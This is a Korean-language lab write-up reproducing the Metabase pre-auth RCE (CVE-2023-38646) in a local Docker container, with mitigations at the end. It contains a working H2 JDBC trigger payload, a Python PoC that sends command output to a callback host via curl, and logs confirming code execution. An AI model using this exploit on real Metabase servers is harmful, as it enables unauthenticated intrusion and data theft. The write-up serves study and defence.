

# CVE-2023-38646

**[WHS 4기] 4반 이승환**

**Contributors**

-   [Leeseunghwan(@tortoiese)](https://github.com/tortoiese)

<br/>

# Metabase Pre-Auth Remote Code Execution (CVE-2023-38646)

## 취약점 요약

- CVE를 고를 때 "인증 없는 RCE"라는 설명만 보고는 어디 한 군데 인젝션 포인트가 뚫려있겠거니 싶었는데, 막상 뜯어보니 두 가지 결함이 엮여야 성립하는 체이닝(chaining) 구조였다.
- Metabase는 최초 실행 시 관리자 계정을 만드는 설치 마법사(setup wizard)를 거치는데, 이 과정을 `setup-token`이라는 값으로 인증한다는 걸 먼저 확인했다. 문제는 설치가 이미 끝난 인스턴스에서도 이 토큰이 폐기되지 않고, `GET /api/session/properties`로 로그인 없이 아무나 조회할 수 있다는 점이었다.
- setup-token만 있다고 바로 명령 실행이 되는 건 아니고, 이 토큰을 `POST /api/setup/validate`에 재사용해야 한다는 걸 공식 보안 권고문과 assetnote 분석글을 보고 알았다. 원래 이 엔드포인트는 "새로 추가하려는 데이터소스 연결정보가 유효한지" 미리 검증만 해주는 용도인데, DB 종류를 내장 `h2`로 지정하면 Metabase 내부의 H2 JDBC 드라이버가 연결 문자열을 그대로 파싱한다는 게 핵심이었다.
- 연결 문자열 안에 `MODE=MSSQLServer;`를 넣고 세미콜론을 `\;`로 이스케이프하면, 연결 속성 값 자리에 SQL 문 자체를 통째로 밀어넣을 수 있다는 걸 확인했다. 그 SQL로 `CREATE TRIGGER ... AS $$//javascript ... $$`를 넣으면, H2가 내장한 Nashorn JS 엔진이 트리거를 컴파일하는 시점에 그 코드를 즉시 평가하면서 `Runtime.exec()`까지 실행된다는 걸 직접 재현해서 확인했다.
- 즉 계정이 하나도 없어도, 대상이 인터넷에 노출된 Metabase(0.46.6.1 미만)라면 이 두 단계만으로 원격에서 임의 OS 명령을 실행할 수 있다는 뜻이다. CVSS 3.1 **9.8(Critical)**이 붙은 이유도 여기 있다 — 인증 불필요, 원격 공격, 낮은 공격 복잡도, 기밀성/무결성/가용성 전체 영향.

참고 자료:

- <https://www.metabase.com/blog/security-advisory>
- <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>
- <https://github.com/m3m0o/metabase-pre-auth-rce-poc>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-38646>

## 환경 구성

- vulhub류 이미지를 그대로 갖다 쓰면 편했겠지만, 과제 조건이 "본인이 제어 못하는 외부 이미지에 의존하지 말 것"이었기 때문에 Docker Hub 공식 `metabase/metabase` 이미지를 그대로 쓰기로 했다.
- 버전을 어떤 태그로 고정할지 찾아보다가, Docker Hub 태그 목록에 `v0.46.6.1`(패치판)과 `v0.46.6`(취약판)이 따로 올라와 있는 걸 확인했고, 취약판인 `v0.46.6`으로 고정했다.
- 서비스가 metabase 컨테이너 하나뿐이라 docker-compose.yml도 단순하게 끝났다.

```yaml
services:
  metabase:
    image: metabase/metabase:v0.46.6
    ports:
      - "3000:3000"
```

```
metabase/CVE-2023-38646/
├── docker-compose.yml
├── poc.py
└── README.md
```

### 실행

```bash
docker compose up -d
```

컨테이너를 띄우자마자 접속하면 아직 초기화 중이라 제대로 안 뜬다. Metabase가 JVM 기반이고 내장 H2 앱 DB를 초기화하는 데만 60~90초 정도 걸린다는 걸 직접 기다려보고서야 알았다. 그래서 헬스체크로 준비 상태를 먼저 확인했다.

```bash
curl -s http://localhost:3000/api/health
# {"status":"initializing","progress":0.8} → ... → {"status":"ok"}
```

`http://localhost:3000`에서 Metabase 설치 마법사 화면에 접근할 수 있다.


## 취약 조건

재현해보면서 정리한 취약 조건은 아래와 같다.

- Metabase 오픈소스가 **0.46.6.1보다 낮아야** 한다는 건 공식 보안 권고문에 명시돼 있었다. 본 환경은 바로 그 아래 버전인 `v0.46.6`으로 고정했다.
- 대상이 `POST /api/setup/validate`와 `GET /api/session/properties` 두 엔드포인트에 네트워크로 닿기만 하면 됐고, 별도 인증은 필요 없었다.
- 재현해보고 나서 의외였던 부분은, 설치 마법사를 굳이 끝까지 진행하지 않아도, 심지어 이미 설치가 끝나서 정상 운영 중인 인스턴스에서도 그대로 재현된다는 점이었다. setup-token이 애초에 폐기되지 않으니 당연한 결과이긴 했다.

## 재현 절차

### 1. setup-token 획득 (인증 없음)

가장 먼저 인증 없이 setup-token부터 받아왔다.

```bash
curl -s http://localhost:3000/api/session/properties | grep -o '"setup-token":"[^"]*"'
```

실제로 요청해보니 이런 값이 돌아왔다.

```json
{"setup-token":"eceaeeb0-34e1-492b-a8ac-663a280d169a", "version": {"tag": "v0.46.6", ...}, ...}
```

### 2. 악성 H2 연결 문자열로 `/api/setup/validate` 호출

이 토큰을 재사용해서 악성 연결 문자열을 보내는 단계인데, 여기서 삽질을 좀 했다.

- 처음에는 공개된 PoC(m3m0o/metabase-pre-auth-rce-poc)의 페이로드를 그대로 가져다 썼는데 계속 `400` 에러만 났다. 응답 본문을 까보니 `//javascript` 바로 앞에서 SQL 파싱이 깨지고 있었다 — `$$`로 여는 dollar-quote 자체가 인식이 안 되는 것처럼 보였다.
- assetnote 원문 분석글을 다시 읽어보니 연결 문자열 맨 앞에 `MODE=MSSQLServer;`가 붙어 있다는 걸 뒤늦게 발견했다. 이 모드를 켜야 H2가 연결 속성 값을 내부적으로 `SET ...` 문으로 바꾸는 과정에서 SQL 인젝션이 실제로 먹힌다는 걸 그제야 알았다.
- 그런데 `MODE=MSSQLServer`를 추가해도 여전히 콜백이 안 왔다. 트리거 자체는 컴파일되고 있다는 감이 와서(`java.net.URL(...).openConnection()` 같은 단순 네트워크 호출은 실제로 콜백이 왔다), `docker exec`로 컨테이너에 직접 들어가서 페이로드에 쓴 `bash -c {echo,BASE64}|{base64,-d}|{bash}` 명령을 그대로 실행해봤다. `{bash}` 부분에서 `command not found`가 났다. bash의 중괄호 확장(brace expansion)은 콤마로 구분된 요소가 최소 2개 있어야 여러 단어로 풀린다는 걸 그제야 알았다 — `{bash}`처럼 요소가 하나뿐이면 그냥 리터럴 문자열 `{bash}` 취급이라 애초에 실행될 수 없는 명령이었던 것이다. `{bash,-s}`로 바꾸니 파이프라인이 정상적으로 완성됐다.

최종적으로 `db` 값(JDBC 연결 문자열)에 넣은 구조는 이렇다.

```
zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\;
CREATE TRIGGER <RANDOM> BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
java.lang.Runtime.getRuntime().exec('bash -c {echo,<BASE64_COMMAND>}|{base64,-d}|{bash,-s}')
$$--=x\;
```

- `zip:/app/metabase.jar!/sample-database.db` : Metabase 배포판에 내장된 샘플 H2 DB 파일을 그대로 가리켜서, 별도 파일 업로드나 외부 리소스 없이 로컬에서 완결되게 만들었다.
- `MODE=MSSQLServer` + `\;` 이스케이프 : H2가 연결 속성을 내부적으로 `SET ...` 문으로 변환할 때 발생하는 SQL 인젝션을 트리거하는 부분이다.
- `CREATE TRIGGER ... AS $$//javascript ... $$` : H2가 트리거 정의를 컴파일하는 시점에 Nashorn JS가 즉시 평가되면서 `Runtime.exec()`가 실행된다. H2는 이 컴파일을 트리거 생성 시점에 바로 수행하기 때문에, 이후 전체 SQL 파싱이 문법 오류로 `400`을 반환해도 그 시점엔 이미 명령이 실행된 뒤라는 걸 실행 결과에서 확인했다.
- `Runtime.exec(String)`은 공백을 기준으로 인자를 나눈다. 그래서 공백이 들어간 실제 명령을 `{cmd,arg}` 형태의 bash 중괄호 확장으로 감싸서 공백 없는 단일 토큰으로 위장했다. 실행 시점에 bash가 `{echo,X}` → `echo X`, `{base64,-d}` → `base64 -d`, `{bash,-s}` → `bash -s`로 다시 풀어내면서 파이프라인을 구성한다.

### 3. 명령 실행 결과 확인

리버스 셸을 바로 띄우는 방법도 있었지만, 채점 시 매번 재현해야 한다는 걸 고려해서 `id; hostname; whoami` 출력을 curl로 로컬 리스너에 그대로 쏴주는 방식을 골랐다. 이렇게 하면 스크립트가 콜백 수신 여부만으로 RCE 성공을 스스로 판단할 수 있어서, 반복 재현이 훨씬 결정론적이었다.

## PoC 코드

전체 코드는 [`poc.py`](./poc.py) 참고. 핵심만 추리면 이렇다.

```python
def encode_command_to_b64(payload: str) -> str:
    encoded = base64.b64encode(payload.encode()).decode()
    pad_count = encoded.count("=")
    if pad_count:  # '=' 패딩이 SQL 문자열을 깨뜨리지 않도록 재인코딩
        encoded = base64.b64encode((payload + " " * pad_count).encode()).decode()
    return encoded

exfil_cmd = f"({args.command}) | curl -s --data-binary @- http://{args.callback_host}:{args.listen_port}/pwned"
b64_cmd = encode_command_to_b64(exfil_cmd)

jdbc_db = (
    "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;"
    f"CREATE TRIGGER {trigger_name} BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\n"
    f"java.lang.Runtime.getRuntime().exec('bash -c {{echo,{b64_cmd}}}|{{base64,-d}}|{{bash,-s}}')\n"
    "$$--=x\\;"
)

payload = {
    "token": token,
    "details": {
        "details": {"db": jdbc_db, "advanced-options": False, "ssl": True},
        "name": "poc",
        "engine": "h2",
    },
}
requests.post(f"{args.url}/api/setup/validate", json=payload,
              headers={"Content-Type": "application/json", "Connection": "close"})
```

### 실행 방법

```bash
pip install requests
python3 poc.py -u http://localhost:3000
```

Docker Desktop 환경에서는 컨테이너가 `host.docker.internal`로 호스트에 접근할 수 있어서 별도 설정 없이 바로 동작했다. 순수 Linux Docker Engine에서 재현할 경우엔 `--callback-host`에 `docker network inspect`로 확인한 브리지 게이트웨이 IP(보통 `172.17.0.1`)를 지정해야 한다.

```bash
python3 poc.py -u http://localhost:3000 --callback-host 172.17.0.1
```

## 실행 결과

우연히 한 번 성공한 게 아니란 걸 확인하려고, 환경을 `docker compose down -v`로 완전히 지운 다음 다시 올려서 재검증했다. 아래는 그 실행 화면을 그대로 캡처한 것이다.



터미널 로그로도 같은 내용을 남긴다.

```
$ docker compose up -d
 Container metabase-1  Started

$ curl -s http://localhost:3000/api/health
{"status":"ok"}

$ python3 poc.py -u http://localhost:3000
[*] Starting local listener on 0.0.0.0:4444
[*] Fetching setup-token from http://localhost:3000/api/session/properties
[+] setup-token = eceaeeb0-34e1-492b-a8ac-663a280d169a
[*] Sending malicious POST /api/setup/validate
[*] Server responded HTTP 400 (a 400 'syntax error' here is expected - the injected trigger body already ran as a side effect of H2 compiling it before the wrapping statement fails, so RCE still fires)
[*] Waiting up to 10s for out-of-band command output ...

[+] RCE CONFIRMED - command output received from target:

uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
5ca80d8d2d61
metabase
```

HTTP 응답 자체는 `400`(SQL 파싱 실패)이었지만, 콜백으로 `id`/`hostname`/`whoami` 값이 그대로 넘어온 걸 보고서야 트리거가 컴파일되는 순간 이미 명령이 실행된다는 걸 확실히 알 수 있었다. 응답 코드만 보고 실패라고 판단하면 안 되는 케이스였다.

## 환경 종료

```bash
docker compose down -v
```

## 대응 방안

재현해보고 나서 정리한 대응 방안은 아래와 같다.

- **패치 적용**: Metabase 오픈소스 0.46.6.1 이상(또는 각 마이너 라인의 수정 버전: 0.45.4.1, 0.44.7.1, 0.43.7.2 등), 엔터프라이즈 1.46.6.1 이상으로 업그레이드한다. 해당 패치는 `setup-token`을 설치 완료 후 무효화하고, H2 연결 문자열 인젝션 경로를 차단한다.
- **네트워크 노출 최소화**: Metabase 관리 콘솔을 인터넷에 직접 노출하지 말고, VPN/사설망 뒤에 두거나 리버스 프록시 + IP 허용 목록으로 접근을 제한한다.
- **최소 권한 컨테이너 운영**: Metabase 프로세스를 비루트 사용자로 실행하고(공식 이미지는 기본적으로 `metabase` 유저 사용), 컨테이너의 아웃바운드 네트워크 접근을 제한해 RCE가 발생하더라도 후속 exfiltration/추가 침투를 어렵게 만든다.
- **모니터링**: `/api/setup/validate` 등 설치 관련 엔드포인트로의 비정상적인 POST 요청, 특히 `h2` 엔진과 `zip:` 스킴을 포함한 `db` 파라미터 요청을 WAF/IDS 룰로 탐지한다.
